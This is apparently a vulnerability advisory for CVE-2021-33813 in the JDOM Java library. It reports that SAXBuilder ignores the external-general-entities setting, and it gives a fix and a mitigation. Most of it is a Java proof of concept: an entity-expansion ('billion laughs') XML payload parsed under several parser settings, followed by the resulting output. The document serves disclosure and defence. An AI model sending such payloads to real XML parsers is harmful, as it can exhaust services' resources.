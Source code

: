 ```yaml
---
layout: vuln
credit: estib
timeline:
    - type: 'report'
      date: '2021-02-16'
    - type: 'cve-assign'
      date: '2021-06-03'
    - type: 'deadline'
      date: '2021-05-16'
    - type: 'cve-request'
      date: '2021-06-02'
    - type: 'release'
      date: '2021-06-08'
product:
     - ' - JDOM library'

vulnerable:
- ' - JDOM-2.0.6 and before'

severity: 'moderate'
alephid: ALEPH-2021003
cve: CVE-2021-33813
date: '2021-06-03'
references:
    - src: 'JDOM XXE brunch fix PR'
      url: 'https://github.com/hunterhacker/jdom/pull/188'

title: 'XXE in JDOM library - Java'  

---
```

While working with the JDOM library, We have found a bug in SAXBuilder class that might lead to an XXE vulnerability.
According to OWASP, to avoid XXE vulnerability, we need to configure the parser not to allow external entities by 
using setFeature() method with the following values: 
``` java
parser.setFeature("http://xml.org/sax/features/external-general-entities", false).
```
We have found that it does not matter which value is set in this feature. Whether it is true or false,
external-general-entities will use the value from the Expand Entity.

Our suggested code fix is that setting user-specified features should be done after the set entity expansion. Since that user-specified configuration should have higher priority to avoid XXE.

Our mitigation is until a version fix is out, add configuration for ExpandEntity that should protect the parser from XXE:
``` java
builder.setExpandEntities(false);
```
Exploit example for the XXE bomb attack(billion laughs attack):
``` java
void test_SAXBuilder(HttpServletRequest request, HttpServletResponse response) throws IOException {
 
    String xmlParam = "<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY bar \"World \">
	<!ENTITY t1 \"&bar;&bar;\"><!ENTITY t2 \"&t1;&t1;&t1;&t1;\">
	<!ENTITY t3 \"&t2;&t2;&t2;&t2;&t2;\">]><foo>Hello &t3;</foo>";
    
    try {
        // disallow-doctype-decl is set to true and after parsing will hold value true
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        //builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, content: " + s);
    } catch (JDOMException e) {
    }
 
    try {
        // disallow-doctype-decl is set to false and after parsing will hold value true
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", false);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        //builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: false, content: " + s);
    } catch (JDOMException e) {
    }
 
    try {
        // disallow-doctype-decl is set to true and after parsing will hold value false
        // due to expandEntity value
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, ExpandEntities: false, content: " + s);
    } catch (JDOMException e) {
    }
  try {
        // disallow-doctype-decl is set to true and after parsing will hold value false
        // due to expandEntity value
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
             s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, ExpandEntities: false,  content: " + s);
    } catch (JDOMException e) {
    }
}
```
The output html is:
``` html
<html>
  <body>
    external-general-entities: true, content: Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World 
    external-general-entities: false, content: Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World 
    external-general-entities: true, ExpandEntities: false, content: Hello
    external-general-entities: true, ExpandEntities: false, content: Hello
  </body>
</html>
```
